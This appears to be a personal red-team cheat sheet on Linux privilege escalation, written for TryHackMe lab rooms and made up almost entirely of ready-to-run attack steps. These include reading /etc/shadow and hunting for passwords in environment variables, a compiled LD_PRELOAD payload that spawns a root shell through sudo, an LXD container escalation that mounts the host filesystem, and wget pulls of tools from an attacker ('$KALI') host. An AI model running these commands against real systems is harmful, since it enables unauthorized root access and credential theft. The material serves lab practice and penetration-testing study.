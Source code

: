 # Linux



## **Gathering Info**

```
whoami
```

```
uname -a
```

```
cat /etc/passwd
cat /etc/shadow
```

Check for passwords in environment variables

```
env
```

### Crontab

```
cat /etc/crontab
```

Possible other places crons are running

```
cat /etc/cron.d/
```

## Sudo/SUID/Capabilities <a href="#user-content-sudosuidcapabilities" id="user-content-sudosuidcapabilities"></a>

Run all of these commands then check [https://gtfobins.github.io/](https://gtfobins.github.io/) . They may give different results

### **Check what can be run with NOPASSWD**

```
sudo -l
```

#### **LD\_PRELOAD**

If LD\_PRELOAD is set try below then running the script we can run with NOPASSWD

```
vi preload.c
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**preload.c - code**

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/bash");
}
```



```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /tmp/preload.c
sudo LD_PRELOAD=/tmp/preload.so $NOPASSWD_SCRIPT_WE_CAN_ABUSE
```

### **Files with SUID-bit set**

```
find / -perm -u=s -type f 2> /dev/null 
```

| Finding | Comments                                                                                                                                                          |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| setcap  | If setcap is set that is very interesting checkout room [annie.md](../../../../walkthroughs/tryhackme/annie.md "mention") for an example for privilege escalation |
|         |                                                                                                                                                                   |
|         |                                                                                                                                                                   |

```
getcap -r / 2>/dev/null
```

**Files where group permissions equal to "writable"**

```
find / -type f -perm /g=w -exec ls -l {} + 2> /dev/null 
```

```
ps aux | grep -v "\[" | grep root
```

```
dpkg -l # debian
```

```
rpm -qa # red hat
```

```
pacman -Qe # arch linux
```

**Look at open ports**

```
ss -ltp
```



### LXD&#x20;

Followed this link on lxd privilege escalation. Did this on [anonymous.md](../../../../walkthroughs/tryhackme/anonymous.md "mention") and [gamingserver.md](../../../../walkthroughs/tryhackme/gamingserver.md "mention")

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI:81/alpine-v3.18-x86_64-20231111_1929.tar.gz
lxc image import ./alpine-v3.18-x86_64-20231111_1929.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```



## PSPY

script that can monitor linux processes without root access

**Kali**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32 
```





## Docker Breakout / Privilege Escalation

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation" %}

Look at below rooms of docker breakout

[ultratech.md](../../../../walkthroughs/tryhackme/ultratech.md "mention")

[dogcat.md](../../../../walkthroughs/tryhackme/dogcat.md "mention")

[the-marketplace.md](../../../../walkthroughs/tryhackme/the-marketplace.md "mention")



Copy Material from here:

[https://tryhackme.com/room/linprivesc](https://tryhackme.com/room/linprivesc)



**Automated Enumeration Tools**

| Name                          | Link                                                                                                                                                                                           |
| ----------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| LinPeas                       | [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) |
| LinEnum                       | [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)                                                                                                                 |
| LES (Linux Exploit Suggester) | [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)                                                                                           |
| Linux Smart Enumeration       | [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)                                                                           |
| Linux Priv Checker:           | [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)                                                                                                       |



## Room with other things to try

[https://jeffgthompsons-organization.gitbook.io/red-team/walkthroughs/tryhackme/linux-privesc](https://jeffgthompsons-organization.gitbook.io/red-team/walkthroughs/tryhackme/linux-privesc)

## Other Cheat sheets

[https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics)

